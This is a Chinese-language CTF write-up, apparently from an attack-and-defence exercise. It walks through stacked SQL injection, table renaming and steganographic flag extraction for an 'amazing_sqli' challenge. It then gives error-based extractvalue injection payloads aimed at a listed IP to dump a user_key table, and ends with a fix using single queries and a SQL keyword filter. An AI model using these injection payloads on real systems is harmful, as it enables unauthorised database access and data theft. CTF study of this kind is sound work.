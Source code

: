 # Break it

## amazing_sqli write up  
* 访问网页后注册登录  
![](img/log-in.PNG)  
* 进入留言板，点击发布  
![](img/留言板.PNG)  
* 在发布页面进行堆叠注入  
    * 查看表名```1';show tables;#```  
    ![](img/查看表名.PNG)   
    ![](img/表名.PNG)  
    * 查看列名  
    ```';show columns from `f_here_is_tips`;#```  
    ![](img/查看列名.PNG)  
    ![](img/列名.PNG)
    这一列中有我们需要的提示  
    * 修改表名  
    ```1';RENAME TABLE `come_on` TO `words1`;RENAME TABLE `f_here_is_tips` TO `come_on`;ALTER TABLE `come_on` CHANGE `hints` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from wcome_on;#```    
    * 紧接着查询这个表的字段  
    ```1' or '1'='1```  
    得到一串base64，这就是提示  
    ![](img/hints.PNG)
    * 拿去解码，得到藏有flag的图片路径  
        ```  
        /this_is_aaaaaa_hint.jpg  
        ```  
        下载图片   
    * 拖到虚拟机用 binwalk 命令分析
    ![](img/binwalk.png)
    * 用十六进制编辑器提取出隐藏的图片1，并在文件位恢复zip相应被修改的位，提取出zip。然后将图片1放入jphide工具提取信息，结合zip里的php修改运行，可得到flag。
    ![](img/十六进制.png)
    标红位置，开头修改为`50 4B 03 04`，第二个PK头的位置修改为`50 4B 01 02`，第二个`abcd.php`的名字修改为`flag.php`

    * 修改 php 内容，将 host 变量的内容改为"MMT is beautiful"
        ```
        <?php
        $left="{";
        $right="}";
        $win="tCTF";
        $hello="world";
        $world="cuc";
        $cuc="good";
        $good="you";
        $you="win";

        $host = "MMT is beautiful";

        echo $$$$$$hello . $left . md5($host) . $right;

        ?>
        ```

    * 得到flag：tCTF{416199354d80b164b1be9d4409d3442d}

## Team1：http://81.70.163.207:3366/
* 尝试sql注入  
* 爆数据库名  
    ```  
    l' and extractvalue(1,concat(0x7e,database(),0x7e)) --   
    ```  
* 爆表名  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --   
    ```  
* 爆列名  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='user_key_tb'),0x7e)) --   
    ```  
* 查看列中数据  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(user_name) from user_key_tb),0x7e)) --   
    l' and extractvalue(1,concat(0x7e,(select group_concat(user_key) from user_key_tb),0x7e)) --   
    ```  
    ![](img/key.PNG)
* 将上一步获得base64编码的字符进行解码  
    ```  
    tCTF{flag_000323.jpg}  
    ```


# Fix it
* 将禁止堆叠注入与过滤常见数据库操作语句相结合，用户无法访问含有敏感信息的表  
    ```  
    #一次只能执行一个操作
    multi_query()-->query()  

    #过滤  
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject) && die('察觉到你尝试攻击,请停止sql注入');  
    ```
